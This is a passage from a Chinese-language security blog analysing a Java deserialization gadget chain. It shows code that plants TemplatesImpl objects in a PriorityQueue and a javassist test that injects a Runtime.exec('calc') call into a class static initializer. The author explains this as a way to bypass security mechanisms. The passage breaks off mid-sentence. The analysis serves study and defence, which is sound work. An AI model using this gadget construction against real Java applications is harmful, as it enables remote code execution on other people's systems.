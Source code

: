 ```
    //Reflections.setFieldValue(comparator, "property", "newTransformer");
    //这里由于比较器的代码，只能访问内部属性。所以选择outputProperties属性。 进而调用getOutputProperties方法。  @angelwhu

    // switch contents of queue
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = templates;
    queueArray[1] = templates;

    return queue;
}

```

第一行代码`final TemplatesImpl templates = Gadgets.createTemplatesImpl(command);`创建了`TemplatesImpl`类的对象，里面封装了我们需要的命令执行代码。而且是使用**字节码**的形式存储在对象属性中。  
下面就具体分析下这个对象的产生过程。

### (1) 利用TemplatesImpl类存储危险的字节码

在产生字节码时，用到了JDK中`javassist`类。具体了解可以参考这篇博客[http://www.cnblogs.com/hucn/p/3636912.html](http://www.cnblogs.com/hucn/p/3636912.html)。  
下面是我编写的一个简单的样例程序，便于理解:

```
@Test
public void testClassPool() throws CannotCompileException, NotFoundException, IOException
{
    String command = "calc";

    ClassPool pool = ClassPool.getDefault();
    pool.insertClassPath(new ClassClassPath(angelwhu.model.Point.class));
    CtClass cc = pool.get(angelwhu.model.Point.class.getName());
    //System.out.println(angelwhu.model.Point.class.getName());

    cc.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\"", "\\\"") +"\");");
    //加入关键执行代码，生成一个静态函数。

    String newClassNameString = "angelwhu.Pwner" + System.nanoTime();
    cc.setName(newClassNameString);

    CtMethod mthd = CtNewMethod.make("public static void main(String[] args) throws Exception {new " + newClassNameString + "();}", cc);
    cc.addMethod(mthd);

    cc.writeFile();
}

```

上述代码首先获取到class定义的容器`ClassPool`，并找到了我自定义的`Point`类，由此生成了`cc`对象。这样就可以开始对类进行修改的任意操作了。而且这个操作是直接写字节码。这样可以绕过许多安全机制，正像工具中注释说的:
